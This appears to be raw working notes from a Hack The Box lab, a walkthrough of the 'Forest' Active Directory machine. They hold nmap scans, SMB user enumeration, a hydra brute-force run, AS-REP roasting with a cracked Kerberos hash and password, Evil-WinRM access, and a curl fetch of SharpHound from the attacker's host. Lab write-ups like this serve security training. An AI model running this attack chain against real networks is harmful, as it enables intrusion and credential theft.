```
# Nmap 7.91 scan initiated Wed Jan 13 17:08:10 2021 as: nmap -v -sC -sV -Pn -oN nmap.full -p- 10.10.10.161
Nmap scan report for 10.10.10.161
Host is up (0.15s latency).
Not shown: 65512 closed ports
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2021-01-13 17:11:55Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49684/tcp open  msrpc        Microsoft Windows RPC
49703/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h49m12s, deviation: 4h37m10s, median: 9m11s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2021-01-13T09:12:49-08:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-01-13T17:12:46
|_  start_date: 2021-01-13T16:14:37

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan 13 18:03:49 2021 -- 1 IP address (1 host up) scanned in 3338.32 seconds
```







kali@kali:~/htb/boxes/forest/10.10.10.161$ locate .nse | grep smb
/usr/share/nmap/scripts/smb-brute.nse
/usr/share/nmap/scripts/smb-check-vulns.nse
/usr/share/nmap/scripts/smb-double-pulsar-backdoor.nse
/usr/share/nmap/scripts/smb-enum-domains.nse
/usr/share/nmap/scripts/smb-enum-groups.nse
/usr/share/nmap/scripts/smb-enum-processes.nse
/usr/share/nmap/scripts/smb-enum-services.nse
/usr/share/nmap/scripts/smb-enum-sessions.nse
/usr/share/nmap/scripts/smb-enum-shares.nse
/usr/share/nmap/scripts/smb-enum-users.nse
/usr/share/nmap/scripts/smb-flood.nse
/usr/share/nmap/scripts/smb-ls.nse
/usr/share/nmap/scripts/smb-mbenum.nse
/usr/share/nmap/scripts/smb-os-discovery.nse
/usr/share/nmap/scripts/smb-print-text.nse
/usr/share/nmap/scripts/smb-protocols.nse
/usr/share/nmap/scripts/smb-psexec.nse
/usr/share/nmap/scripts/smb-security-mode.nse
/usr/share/nmap/scripts/smb-server-stats.nse
/usr/share/nmap/scripts/smb-system-info.nse
/usr/share/nmap/scripts/smb-vuln-conficker.nse
/usr/share/nmap/scripts/smb-vuln-cve-2017-7494.nse
/usr/share/nmap/scripts/smb-vuln-cve2009-3103.nse
/usr/share/nmap/scripts/smb-vuln-ms06-025.nse
/usr/share/nmap/scripts/smb-vuln-ms07-029.nse
/usr/share/nmap/scripts/smb-vuln-ms08-067.nse
/usr/share/nmap/scripts/smb-vuln-ms10-054.nse
/usr/share/nmap/scripts/smb-vuln-ms10-061.nse
/usr/share/nmap/scripts/smb-vuln-ms17-010.nse
/usr/share/nmap/scripts/smb-vuln-regsvc-dos.nse
/usr/share/nmap/scripts/smb-vuln-webexec.nse
/usr/share/nmap/scripts/smb-webexec-exploit.nse
/usr/share/nmap/scripts/smb2-capabilities.nse
/usr/share/nmap/scripts/smb2-security-mode.nse
/usr/share/nmap/scripts/smb2-time.nse
/usr/share/nmap/scripts/smb2-vuln-uptime.nse
kali@kali:~/htb/boxes/forest/10.10.10.161$ nmap --script smb-vuln* -p445,139 10.10.10.161

Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-14 16:55 CET
Nmap scan report for 10.10.10.161
Host is up (0.098s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED

nmap --script smb-enum* -p445,139 10.10.10.161


| smb-enum-users: 
|   HTB\$331000-VK4ADACQNUCA (RID: 1123)
|     Flags:       Normal user account, Password Expired, Password not required, Account disabled
|   HTB\Administrator (RID: 500)
|     Full name:   Administrator
|     Description: Built-in account for administering the computer/domain
|     Flags:       Normal user account, Password Expired
|   HTB\andy (RID: 1150)
|     Full name:   Andy Hislip
|     Flags:       Normal user account, Password does not expire
|   HTB\DefaultAccount (RID: 503)
|     Description: A user account managed by the system.
|     Flags:       Normal user account, Password not required, Password does not expire, Account disabled
|   HTB\Guest (RID: 501)
|     Description: Built-in account for guest access to the computer/domain
|     Flags:       Normal user account, Password not required, Password does not expire, Account disabled
|   HTB\HealthMailbox0659cc1 (RID: 1144)
|     Full name:   HealthMailbox-EXCH01-010
|     Flags:       Normal user account, Password does not expire
|   HTB\HealthMailbox670628e (RID: 1137)
|     Full name:   HealthMailbox-EXCH01-003
|     Flags:       Normal user account, Password does not expire
|   HTB\HealthMailbox6ded678 (RID: 1139)
|     Full name:   HealthMailbox-EXCH01-005
|     Flags:       Normal user account, Password does not expire
|   HTB\HealthMailbox7108a4e (RID: 1143)
|     Full name:   HealthMailbox-EXCH01-009
|     Flags:       Normal user account, Password does not expire
|   HTB\HealthMailbox83d6781 (RID: 1140)
|     Full name:   HealthMailbox-EXCH01-006
|     Flags:       Normal user account, Password does not expire
|   HTB\HealthMailbox968e74d (RID: 1138)
|     Full name:   HealthMailbox-EXCH01-004
|     Flags:       Normal user account, Password does not expire
|   HTB\HealthMailboxb01ac64 (RID: 1142)
|     Full name:   HealthMailbox-EXCH01-008
|     Flags:       Normal user account, Password does not expire
|   HTB\HealthMailboxc0a90c9 (RID: 1136)
|     Full name:   HealthMailbox-EXCH01-002
|     Flags:       Normal user account, Password does not expire
|   HTB\HealthMailboxc3d7722 (RID: 1134)
|     Full name:   HealthMailbox-EXCH01-Mailbox-Database-1118319013
|     Flags:       Normal user account, Password does not expire
|   HTB\HealthMailboxfc9daad (RID: 1135)
|     Full name:   HealthMailbox-EXCH01-001
|     Flags:       Normal user account, Password does not expire
|   HTB\HealthMailboxfd87238 (RID: 1141)
|     Full name:   HealthMailbox-EXCH01-007
|     Flags:       Normal user account, Password does not expire
|   HTB\krbtgt (RID: 502)
|     Description: Key Distribution Center Service Account
|     Flags:       Normal user account, Password Expired, Account disabled
|   HTB\lucinda (RID: 1146)
|     Full name:   Lucinda Berger
|     Flags:       Normal user account, Password does not expire
|   HTB\mark (RID: 1151)
|     Full name:   Mark Brandt
|     Flags:       Normal user account, Password does not expire
|   HTB\santi (RID: 1152)
|     Full name:   Santi Rodriguez
|_    Flags:       Normal user account, Password does not expir


non expired:

Administrator
andy
HealthMailbox0659cc1
HealthMailbox670628e
HealthMailbox6ded678
HealthMailbox7108a4e
HealthMailbox83d6781
HealthMailbox968e74d
HealthMailboxb01ac64
HealthMailboxc0a90c9
HealthMailboxc3d7722
HealthMailboxfc9daad
HealthMailboxfd87238
lucinda
mark
santi


mutated passwords:

Andy Hislip
Andy
Hislip
HealthMailbox-EXCH01-010
HealthMailbox-EXCH01-003
HealthMailbox-EXCH01-005
HealthMailbox-EXCH01-009
HealthMailbox-EXCH01-006
HealthMailbox-EXCH01-004
HealthMailbox-EXCH01-008
HealthMailbox-EXCH01-002
HealthMailbox-EXCH01-Mailbox-Database-1118319013
HealthMailbox-EXCH01-001
HealthMailbox-EXCH01-007
Lucinda Berger
Lucinda
Berger
Mark Brandt
Mark
Brandt
Santi Rodriguez
Santi
Rodriguez


cat /usr/share/seclists/Passwords/xato-net-10-million-passwords-10.txt >> passwords.txt

kali@kali:~/htb/boxes/forest/10.10.10.161$ hydra -L users.txt -P passwords.txt smb2://10.10.10.161
Hydra v9.2-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-14 17:17:22
[WARNING] Workgroup was not specified, using "WORKGROUP"
[DATA] max 16 tasks per 1 server, overall 16 tasks, 768 login tries (l:16/p:48), ~48 tries per task
[DATA] attacking smb2://10.10.10.161:445/
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-14 17:18:19


```
enum4linux

[+] Getting domain groups:                                   
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]  
group:[Domain Admins] rid:[0x200]                            
group:[Domain Users] rid:[0x201]                             
group:[Domain Guests] rid:[0x202]                            
group:[Domain Computers] rid:[0x203]                         
group:[Domain Controllers] rid:[0x204]                       
group:[Schema Admins] rid:[0x206]                            
group:[Enterprise Admins] rid:[0x207]                        
group:[Group Policy Creator Owners] rid:[0x208]              
group:[Read-only Domain Controllers] rid:[0x209]             
group:[Cloneable Domain Controllers] rid:[0x20a]             
group:[Protected Users] rid:[0x20d]                          
group:[Key Admins] rid:[0x20e]                               
group:[Enterprise Key Admins] rid:[0x20f]                    
group:[DnsUpdateProxy] rid:[0x44e]                           
group:[Organization Management] rid:[0x450]                  
group:[Recipient Management] rid:[0x451]                     
group:[View-Only Organization Management] rid:[0x452]        
group:[Public Folder Management] rid:[0x453]                 
group:[UM Management] rid:[0x454]                            
group:[Help Desk] rid:[0x455]                                
group:[Records Management] rid:[0x456]                       
group:[Discovery Management] rid:[0x457]                     
group:[Server Management] rid:[0x458]                        
group:[Delegated Setup] rid:[0x459]                          
group:[Hygiene Management] rid:[0x45a]                       
group:[Compliance Management] rid:[0x45b]                    
group:[Security Reader] rid:[0x45c]                          
group:[Security Administrator] rid:[0x45d]                   
group:[Exchange Servers] rid:[0x45e]                         
group:[Exchange Trusted Subsystem] rid:[0x45f]               
group:[Managed Availability Servers] rid:[0x460]             
group:[Exchange Windows Permissions] rid:[0x461]             
group:[ExchangeLegacyInterop] rid:[0x462]                    
group:[$D31000-NSEL5BRJ63V7] rid:[0x46d]                     
group:[Service Accounts] rid:[0x47c]                         
group:[Privileged IT Accounts] rid:[0x47d]                   
group:[test] rid:[0x13ed]
```


user:[Administrator] rid:[0x1f4]           
user:[Guest] rid:[0x1f5]                   
user:[krbtgt] rid:[0x1f6]                  
user:[DefaultAccount] rid:[0x1f7]          
user:[$331000-VK4ADACQNUCA] rid:[0x463]    
user:[SM_2c8eef0a09b545acb] rid:[0x464]    
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]    
user:[SM_75a538d3025e4db9a] rid:[0x466]    
user:[SM_681f53d4942840e18] rid:[0x467]    
user:[SM_1b41c9286325456bb] rid:[0x468]    
user:[SM_9b69f1b9d2cc45549] rid:[0x469]    
user:[SM_7c96b981967141ebb] rid:[0x46a]    
user:[SM_c75ee099d0a64c91b] rid:[0x46b]    
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]    
user:[HealthMailboxc3d7722] rid:[0x46e]    
user:[HealthMailboxfc9daad] rid:[0x46f]    
user:[HealthMailboxc0a90c9] rid:[0x470]    
user:[HealthMailbox670628e] rid:[0x471]    
user:[HealthMailbox968e74d] rid:[0x472]    
user:[HealthMailbox6ded678] rid:[0x473]    
user:[HealthMailbox83d6781] rid:[0x474]    
user:[HealthMailboxfd87238] rid:[0x475]    
user:[HealthMailboxb01ac64] rid:[0x476]    
user:[HealthMailbox7108a4e] rid:[0x477]    
user:[HealthMailbox0659cc1] rid:[0x478]    
user:[sebastien] rid:[0x479]               
user:[lucinda] rid:[0x47a]                 
user:[svc-alfresco] rid:[0x47b]            
user:[andy] rid:[0x47e]                    
user:[mark] rid:[0x47f]                    
user:[santi] rid:[0x480]


Administrator
Guest
krbtgt
DefaultAccount
$331000-VK4ADACQNUCA
SM_2c8eef0a09b545acb
SM_ca8c2ed5bdab4dc9b
SM_75a538d3025e4db9a
SM_681f53d4942840e18
SM_1b41c9286325456bb
SM_9b69f1b9d2cc45549
SM_7c96b981967141ebb
SM_c75ee099d0a64c91b
SM_1ffab36a2f5f479cb
HealthMailboxc3d7722
HealthMailboxfc9daad
HealthMailboxc0a90c9
HealthMailbox670628e
HealthMailbox968e74d
HealthMailbox6ded678
HealthMailbox83d6781
HealthMailboxfd87238
HealthMailboxb01ac64
HealthMailbox7108a4e
HealthMailbox0659cc1
sebastien
lucinda
svc-alfresco
andy
mark
santi


GetNPUsers.py HTB.local/ -request -format hashcat -outputfile npusers.hash -dc-ip 10.10.10.161

https://youtu.be/pZSyGRjHNO4

C:\tmp\hashcat-6.1.1>hashcat -m18200 forest.kerberos rockyou.txt --show

                     $krb5asrep$23$svc-alfresco@HTB.LOCAL:3166db4a36d1044f5f4f37cdd4aab0bc$2861146859fad9e8396eb56763c6054aef5bf09f834e63132aaf7f58b42ba253a1f4d5309583d1eea7870cb1b281da3367c12cc4029f6b8643a10d88a6e87dd720a7903b01598a2c290bb2e4d0c21923b50ff6d74527302a68f8c11607156d15de27ea9bae4bc0a2ced27c3fa6b595d079b2ce13954b7cea80bef15230464a4c0e56d1b74ea8314ba6469f481743d2f11ec7d9e550ad41f34b8a4be2b40ca8d7e18e130f58ea3e596c752196071a8db2ddc802075a00784e50dd39afb71d97f9a74ec50b552e9bda1b23626427c81710f2eaa902f4a7650ca95e5bb3c3c8bcdb7539c4d33e98:s3rvice 


svc-alfresco:s3rvice




*Evil-WinRM* PS C:\Users> [System.Environment]::OSVersion.Version

Major  Minor  Build  Revision
-----  -----  -----  --------
10     0      14393  0







neo4j

sudo apt install Bloodhound








kali@kali:/opt/privesc/windows$ mkdir -p /usr/share/neo4j/logs
mkdir: cannot create directory ‘/usr/share/neo4j/logs’: Permission denied
kali@kali:/opt/privesc/windows$ sudo !!
sudo mkdir -p /usr/share/neo4j/logs
kali@kali:/opt/privesc/windows$ touch /usr/share/neo4j/logs/neo4j.log
touch: cannot touch '/usr/share/neo4j/logs/neo4j.log': Permission denied
kali@kali:/opt/privesc/windows$ sudo touch /usr/share/neo4j/logs/neo4j.log








-> bloodhound


kali@kali:~$ locate SharpHound
/usr/share/metasploit-framework/data/post/SharpHound.exe

curl 10.10.14.4:9090/SharpHound.exe -o SharpHound.exe

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> .\SharpHound -c all
-----------------------------------------------
Initializing SharpHound at 1:40 AM on 1/15/2021
-----------------------------------------------

Resolved Collection Methods: Group, Sessions, LoggedOn, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container

[+] Creating Schema map for domain HTB.LOCAL using path CN=Schema,CN=Configuration,DC=HTB,DC=LOCAL
[+] Cache File not Found: 0 Objects in cache

[+] Pre-populating Domain Controller SIDS
Status: 0 objects finished (+0) -- Using 21 MB RAM
Status: 123 objects finished (+123 61.5)/s -- Using 28 MB RAM
Enumeration finished in 00:00:02.4275307
Compressing data to .\20210115014053_BloodHound.zip
You can upload this file directly to the UI

SharpHound Enumeration Completed at 1:40 AM on 1/15/2021! Happy Graphing!


*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> download 20210115014053_BloodHound.zip
Info: Downloading C:\Users\svc-alfresco\Documents\20210115014053_BloodHound.zip to 20210115014053_BloodHound.zip


                     
Info: Download successful!



